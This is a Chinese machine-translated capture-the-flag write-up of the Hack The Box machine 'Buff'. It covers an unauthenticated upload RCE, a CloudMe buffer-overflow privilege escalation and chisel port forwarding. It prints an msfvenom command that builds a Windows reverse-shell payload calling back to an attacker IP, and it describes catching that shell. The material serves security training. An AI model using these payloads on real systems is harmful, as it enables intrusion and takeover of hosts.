# HTB 迷[评论]

> 原文：<https://infosecwriteups.com/htb-buff-writeup-5d118ab695c0?source=collection_archive---------1----------------------->

## 未经验证的 RCE |缓冲区利用|端口转发



# 摘要

这台机器教你如何利用一个简单的应用程序，容易受到未经认证的 RCE 获得用户外壳。对于根攻击，需要修改缓冲区攻击代码和端口转发技术。

**使用的工具:** `nmap` | `curl` | `nc` | `chisel`

# 侦察和计数

**Nmap TCP 扫描输出**



# 据点

********************端口 8080 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在 */contact.php* 下，我们可以看到它可能是用户名。

web 应用程序正在运行健身房管理软件 v1.0，该软件易受[远程代码执行(RCE)](https://www.exploit-db.com/exploits/48506) 攻击。该漏洞通过将恶意 php 文件上传到/upload.php 来绕过图像上传过滤器。



# 反向外壳

在下载了漏洞代码并试图执行它之后，我得到了以下错误。然而，它只需要简单的修复:



错误 I



修复 I



错误二



修复 II



# 横向运动

弹出一个窗口外壳后，总是尝试执行**powershell.exe**，因为它允许你运行更强大的命令。

不过，对于这台机器，在下载文件夹中找到了一个名为 **CloudMe_1112.exe** 的可执行文件。



# 权限提升

【CloudMe.exe 剥削 1 . 11 . 2

CloudMe 1.11.2 程序容易受到**缓冲区溢出**的攻击。以这个[漏洞利用](https://www.exploit-db.com/exploits/48389)为指导，我利用这台机器来获得 root。



要检查 *CloudMe* 是否已经在运行，运行`tasklist` 命令查看正在运行的进程。



下面我们可以看到 CloudMe 正在本地主机上运行。在执行`netstat -antp tcp` 命令时，我们还可以看到 localhost 上运行着两个端口:3306 和 8888。在 google 上快速搜索 cloudme 端口，我们发现它运行在端口 8888 上。因此，我们现在知道 **CloudMe** 正在监听 **127.0.0.1:8888。**



以下是该漏洞的有效载荷。



使用下面的代码修改漏洞利用代码中的当前外壳代码，并通过运行以下命令将其转换为外壳代码:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.35 LPORT=8700 -f py -v payload`

将上面的 exploit.py 有效负载替换为我们的 localhost 和执行 shell 的端口。

## 端口转发

受害者机器在本地主机 8888 上运行 cloudme.exe，我们希望该端口在攻击者的机器上运行。

下载客户端 chisel.exe 到受害者和 chisel 服务器监听攻击者的机器。



> 在攻击者的机器上启动 Chisel 服务器



> 在受害者的机器上启动 Chisel 客户端



现在，在 8700 上启动一个监听端口，这个端口之前用于创建 msfvenom 有效负载。

执行修改后的 exploit.py，让外壳弹出到攻击者的机器上。



**成功！！！**



# 补救

*   删除任何程序是过时的，并已在互联网上可用的工作漏洞。